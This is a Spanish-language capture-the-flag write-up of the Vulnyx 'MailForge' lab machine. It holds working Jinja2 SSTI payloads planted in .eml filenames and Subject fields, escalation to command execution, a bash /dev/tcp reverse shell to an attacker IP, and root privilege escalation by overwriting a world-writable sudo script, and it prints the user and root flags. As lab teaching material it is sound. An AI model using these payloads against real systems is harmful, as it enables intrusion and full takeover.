




# MailForge Vulnyx (Easy - Linux)

## Contexto de la maquina

### Trayectoria MailForge

<figure><figcaption></figcaption></figure>

### Descripción

**MailForge** es una máquina Linux orientada a la explotación de vulnerabilidades web y errores de configuración inseguros en el sistema. El vector inicial parte del análisis de una aplicación Flask expuesta en el puerto 5000, vulnerable a **Server-Side Template Injection (SSTI)**, lo que permite ejecución remota de comandos y acceso inicial al sistema.

Tras obtener acceso como usuario `mailforge`, la escalada de privilegios se basa en una **mala configuración de sudo** combinada con **permisos inseguros sobre un script ejecutable como root**, permitiendo comprometer completamente el sistema.

**Objetivo del reto**

* Obtener acceso inicial como usuario `mailforge`.
* Escalar privilegios hasta `root`.
* Capturar las flags `user.txt` y `root.txt`.

**Tipo de máquina**

* Linux
* Web Exploitation
* Privilege Escalation
* Misconfigurations

**Habilidades y técnicas evaluadas**

* Enumeración de servicios con Nmap
* Virtual Host Discovery
* Explotación de SSTI en Flask/Jinja2
* Obtención de reverse shell
* Tratamiento y estabilización de TTY
* Enumeración de privilegios sudo
* Abuso de permisos inseguros sobre scripts ejecutados como root

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos, como de costumbre, con un escaneo completo de puertos para identificar servicios expuestos:

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Posteriormente realizamos enumeración y detección de versiones sobre los puertos descubiertos:

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-21 11:49 -0400
Nmap scan report for 192.168.5.153
Host is up (0.00047s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.2 (protocol 2.0)
80/tcp   open  http    nginx
|_http-title: Did not follow redirect to http://mailforge.nyx/
5000/tcp open  http    Werkzeug httpd 3.1.4 (Python 3.12.12)
|_http-title: MailForge - Email Preview Service
|_http-server-header: Werkzeug/3.1.4 Python/3.12.12
MAC Address: 00:0C:29:49:34:60 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds
```

Encontramos tres servicios expuestos, pero destacan especialmente:

* **Puerto 80**, que redirige al dominio `mailforge.nyx`.
* **Puerto 5000**, un servicio Flask servido por Werkzeug, potencialmente interesante de cara a vulnerabilidades en aplicaciones Python.

Como el servicio web del puerto 80 depende de resolución por nombre, añadimos el dominio al archivo `hosts`:

```shell
nano /etc/hosts

#Dentro del nano
<IP>         mailforge.nyx
```

Guardamos y accedemos a la web:

```
URL = http://mailforge.nyx/
```

Respuesta:

<figure><figcaption></figcaption></figure>

La página principal únicamente muestra una landing sencilla de **MailForge**, sin funcionalidad aparente.

Sin embargo, el servicio interesante parece estar en el puerto 5000:

```
URL = http://<IP>:5000/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Aquí encontramos una aplicación para subir y previsualizar archivos `.eml`, lo que abre la puerta a ataques sobre procesamiento de plantillas o renderizado.

Mi primera hipótesis fue probar un posible **Server-Side Template Injection (SSTI)**.

## Escalada a usuario `mailforge`

### SSTI — `flask-reuploaded`

<figure><figcaption></figcaption></figure>

Por el comportamiento de la aplicación y la forma en que gestiona subidas, todo apuntaba a que podía estar usando la librería `flask-reuploaded`.

Esta librería se ve afectada por la vulnerabilidad:

**CVE-2026-27641**

URL = [Info CVE-2026-27641](https://github.com/advisories/GHSA-65mp-fq8v-56jr)

La vulnerabilidad permite inyección SSTI a través de campos no sanitizados durante la renderización.

Como prueba básica, utilizamos el payload clásico:

```shell
{{7*7}}
```

Si se evalúa correctamente, debería devolver:

```
49
```

### SSTI vía nombre de archivo

Primero probamos si el nombre del archivo se renderiza como plantilla.

Creamos un fichero con ese payload como nombre literal:

```shell
touch '{{7*7}}.eml'
```

Lo subimos en la aplicación.

<figure><figcaption></figcaption></figure>

Una vez cargado, accedemos a la opción de **Preview**.

<figure><figcaption></figcaption></figure>

A simple vista, la aplicación parece sanitizar correctamente la mayoría de parámetros visibles en la interfaz y en la URL.

Sin embargo, observamos un comportamiento anómalo en el título de la pestaña del navegador, donde el payload parece haber sido evaluado:

<figure><figcaption></figcaption></figure>

Al inspeccionar el código fuente de la página, se confirma de forma más clara:

```html
<title>Email Preview - 49.eml</title>
```

Esto indica que el valor del nombre del archivo está siendo interpretado por el motor de templates en el lado del servidor, lo que confirma una primera superficie de **SSTI (Server-Side Template Injection)**.

Con esta validación inicial, pasamos a comprobar si la vulnerabilidad también afecta al contenido del archivo.

### SSTI vía contenido del email

Ahora repetimos la prueba, pero trasladando el payload al contenido real del fichero `.eml`.

Creamos un correo básico con un payload Jinja2 en el campo `Subject`:

```shell
cat > test_content.eml << 'EOF'
From: test@example.com
To: admin@example.com
Subject: {{7*7}}
EOF
```

Subimos el archivo a la aplicación y lo previsualizamos:

<figure><figcaption></figcaption></figure>

En este caso, observamos que el payload también es evaluado correctamente dentro del contenido del email.

Esto confirma que no solo el nombre del archivo es vulnerable, sino también los campos internos del `.eml` están siendo procesados por el motor de plantillas.

Con SSTI confirmada en múltiples puntos, el siguiente paso es intentar escalar la vulnerabilidad hacia ejecución de comandos.

### Escalada de SSTI a RCE

Para validar ejecución de comandos, utilizamos un payload más avanzado que aprovecha el contexto interno de Flask/Jinja2 para acceder al módulo `os`:

```shell
cat > test_content.eml << 'EOF'
From: test@example.com
To: admin@example.com
Subject: {{config.__class__.__init__.__globals__['os'].popen('id').read()}}
EOF
```

Volvemos a subir el archivo y recargamos la vista de previsualización:

<figure><figcaption></figcaption></figure>

El resultado del comando `id` se refleja directamente en la respuesta, confirmando la existencia de **Remote Code Execution (RCE)** a partir de la SSTI.

### Explotación (Reverse shell)

Una vez confirmada la ejecución de comandos vía SSTI, procedemos a escalar la capacidad de ejecución hacia una **reverse shell interactiva**.

Para ello, inyectamos un payload que invoca directamente una shell inversa desde el contexto del motor de plantillas:

```shell
cat > test_content.eml << 'EOF'
From: test@example.com
To: admin@example.com
Subject: {{config.__class__.__init__.__globals__['os'].system('bash -c "bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1"')}}
EOF
```

> En este caso utilizamos `system` en lugar de `popen`, ya que nos permite ejecutar directamente el comando sin necesidad de capturar salida.

Antes de activar el payload, nos ponemos en escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

A continuación, subimos nuevamente el archivo y accedemos a su vista de previsualización para disparar la ejecución del payload.

Si revisamos el listener, obtenemos la conexión entrante:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [192.168.5.153] 38666
bash: cannot set terminal process group (3221): Not a tty
bash: no job control in this shell
mailforge:/opt/mailforge/app$ whoami
whoami
mailforge
```

La explotación ha sido exitosa, obteniendo una shell como el usuario `mailforge`.

### Sanitizacion Shell (TTY)

Para mejorar la interacción de la shell y habilitar funcionalidades como control de procesos, procedemos a su estabilización:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez estabilizada la shell, procedemos a leer la `flag` del usuario:

> user.txt

```
9e142552596f94cbeb70d01e4536f14c
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mailforge on mailforge:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for mailforge:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User mailforge may run the following commands on mailforge:
    (root) NOPASSWD: /usr/local/bin/cleaner.sh
```

Vemos que el usuario `mailforge` puede ejecutar el script:

```
/usr/local/bin/cleaner.sh
```

como `root`, sin necesidad de contraseña.

El siguiente paso es analizar su funcionamiento interno:

> /usr/local/bin/cleaner.sh

```bash
#!/bin/sh
rm -rf /opt/mailforge/tmp/*
```

A nivel funcional, el script únicamente elimina el contenido de un directorio temporal, sin nada aparentemente relevante.

Sin embargo, al revisar los permisos del fichero, encontramos un hallazgo crítico:

```shell
ls -la /usr/local/bin/cleaner.sh
```

Respuesta:

```
-rwxrwxrwx    1 root     root            38 Dec 14 12:21 /usr/local/bin/cleaner.sh
```

El archivo es completamente escribible por cualquier usuario (`777`), lo que implica una **mala configuración de permisos a nivel de sistema**.

Esto nos permite modificar directamente su contenido.

### Abuso del script `cleaner.sh`

Dado que el script se ejecuta como `root` vía sudo, podemos sustituir su lógica por una shell privilegiada.

Sobrescribimos el contenido del archivo:

> /usr/local/bin/cleaner.sh

```bash
#!/bin/bash
bash -p
```

Este cambio convierte el script en un mecanismo de obtención de shell con privilegios elevados.

A continuación, ejecutamos el binario con sudo:

```shell
sudo /usr/local/bin/cleaner.sh
```

Respuesta:

```
mailforge:/opt/mailforge# whoami
root
```

La ejecución nos proporciona una shell como `root`, confirmando la escalada de privilegios.

Finalmente, accedemos a la `flag` del sistema:

> root.txt

```
2c4e4e62f7bd23207b2af8601bcd38ab
```
